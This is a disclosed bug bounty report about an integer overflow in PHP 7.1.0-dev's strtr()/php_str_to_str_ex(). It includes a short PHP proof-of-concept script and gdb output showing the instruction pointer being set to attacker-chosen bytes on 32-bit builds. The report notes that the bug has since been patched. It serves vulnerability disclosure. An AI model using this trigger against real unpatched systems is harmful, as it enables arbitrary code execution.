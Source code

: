 # An integer overflow bug in php_str_to_str_ex() led arbitrary code execution.

## Report Details
- **Report ID**: 113122
- **URL**: https://hackerone.com/reports/113122
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-01-27T22:01:37.826Z
- **Disclosed**: 2019-11-12T09:37:53.176Z

## Reporter
- **Username**: blue9057
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Description
------------------

An integer overflow vulnerability exists in PHP-7.1.0
due to missing check of size before calling
zend_string_alloc() in ext/standard/string.c:3234.

Code:
new_str = zend_string_alloc(count * (str_len - needle_len) + ZSTR_LEN(haystack), 0);

All variables including str_len, needle_len, count, haystack are fully controllable.
The overflow results as arbitrary code execution,
as running of test script alter %eip to the arbitrary values.

This bug is only triggered in 32bit machine.

Test script
-------------------
<?php
   $a = str_repeat('A', 65536);
   $b = str_repeat('ABCD', 32768);
   // Changing 'ABCD' into other value alters %eip to arbitrary value.
   $c = array('AA'=> $b);
   strtr($a , $c);
?>

Expected result
------------------------
Correct execution of strtr() function.

Actual result
--------------------
[blue9057@ubuntu ~/exploit/php$] gdb `which php`
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/local/bin/php...done.
(gdb) r strtr.php
Starting program: /usr/local/bin/php strtr.php

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xb7a75000	-1213771776
edx            0xb7a130f0	-1214172944
ebx            0x1	1
esp            0xbfffc01c	0xbfffc01c
ebp            0xbfffc0b4	0xbfffc0b4
esi            0xb7a13020	-1214173152
edi            0xb7a741c0	-1213775424
eip            0x44434241	0x44434241
eflags         0x10286	[ PF SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) r -v
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /usr/local/bin/php -v
PHP 7.1.0-dev (cli) (built: Jan 24 2016 20:39:41) ( NTS )
Copyright (c) 1997-2016 The PHP Group
Zend Engine v3.1.0-dev, Copyright (c) 1998-2016 Zend Technologies
[Inferior 1 (process 4169) exited normally]

EIP is controlled as 0x44434241 with the PoC code placed above, from the input "ABCD".
The attacker can jmp to arbitrary address by controlling that value.


The bug is reported to PHP, and patched & closed; reference is here:
https://bugs.php.net/bug.php?id=71450


## Attachments
No attachments
